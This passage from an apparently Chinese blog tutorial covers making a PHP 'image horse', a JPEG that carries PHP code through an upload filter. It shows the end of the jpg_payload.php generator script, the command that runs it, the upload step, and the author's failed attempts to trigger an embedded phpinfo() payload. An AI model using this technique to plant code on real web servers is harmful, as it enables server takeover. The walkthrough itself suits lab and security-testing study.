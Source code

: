 ```
                die('End Of File');
            }
            $short = substr($this-&gt;binData, 0, 2);
            $this-&gt;binData = substr($this-&gt;binData, 2);
            if($this-&gt;order) {
                $short = (ord($short[1]) &lt;&lt; 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) &lt;&lt; 8) + ord($short[1]);
            }
            return $short;
        }

        public function eof() {
            return !$this-&gt;binData||(strlen($this-&gt;binData) === 0);
        }
    }
?&gt;
```

**第二步：使用php脚本创建一个图片马**

> 
php jpg_payload.php a.jpg


（要进入到文件夹里执行）

生成成功

**第三步：上传到服务器（浏览器）**

上传成功 <img alt="" height="537" src="https://img-blog.csdnimg.cn/cc20572179de4c528a781bb597ff1ae6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6buR6Imy5Zyw5bimKOW0m-i1tyk=,size_18,color_FFFFFF,t_70,g_se,x_16" width="738"/>

访问图片地址的时候出现问题，要多换几张其他的图片试试

但是我用的火狐浏览器只要插入的是&lt;?php phpinfo();?&gt;语句都出现这样的问题

**事后：将生成图片保存到本地，然后用010Editor查看**
